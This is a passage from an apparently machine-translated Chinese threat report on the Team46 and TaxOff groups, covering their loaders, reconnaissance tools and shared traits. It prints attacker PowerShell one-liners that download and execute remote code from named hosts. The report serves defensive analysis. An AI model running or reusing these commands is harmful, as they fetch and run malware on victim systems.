 图 9. ImagePathName 的使用  
  
如果密钥解密成功，加载器就会使用它来解密最后一层加密，而这最后一层加密恰好就是 甜甜圈加载器。   
  
我们还遇到了使用 Cobalt Strike 而不是 Donut 的变种。如果最终加载器是 Donut，则有效载荷为 Trinper；否则，有效载荷为 Cobalt Strike。Trinper 的功能保持不变。  
  
辅助工具  
  
调查发现，攻击者还使用自行编写的工具对受害者系统进行侦察。所有工具均采用.NET编写，并通过命名管道传输获取的数据。这些工具包括：  
- dirlist.exe 在系统中搜索文件。  
  
- ProcessList.exe 获取正在运行的进程列表。  
  
- ScreenShot.exe 用于捕获屏幕截图。  
  
Team46 与 TaxOff 的比较  
  
让我们考虑一下表明 Team46 和 TaxOff 可能是同一团体的事实。  
  
PowerShell 命令和 URL 模式  
  
正如报告开头所述，两个组织都使用了类似的 PowerShell 命令和脚本，包括类似的 URL 模式。  
  
Team46 在 2024 年 2 月使用的命令：  
  

```
-w Minimized -ep Bypass -nop -c&#34;irm https://infosecteam.info/other.php?id=jdcz7vyqdoadr31gejeivo6g30cx7kgu | iex&#34;
```

  
  
Team46 在 2024 年 9 月使用的命令：  
  

```
-whid -ep Bypass -nop -c&#34;irm https://srv510786.hstgr.cloud/ordinary.php?id=9826fbb409f65dc6b068b085551bf4f3 | iex&#34;
```

  
  
TaxOff 在 2025 年 3 月使用的命令：  
  

```
-w minimized -c irm https://ms-appdata-query.global.ssl.fastly.net/query.php?id=[REDACTED] | iex
```

  
  
  
装载机  
  
总体而言，TaxOff 使用的加载程序与 Team46 使用的Trojan.Siggen27.11306加载程序功能相同 。主要相似之处如下：  
1. 使用线程解密有效载荷。  
  
1. 使用固件 UUID 作为密钥。  
  
1. 使用 ImagePathName 作为键。  
  
1. 使用改进的ChaCha20加密算法。  
  
1. 使用改进的 BLAKE2 哈希算法。  
  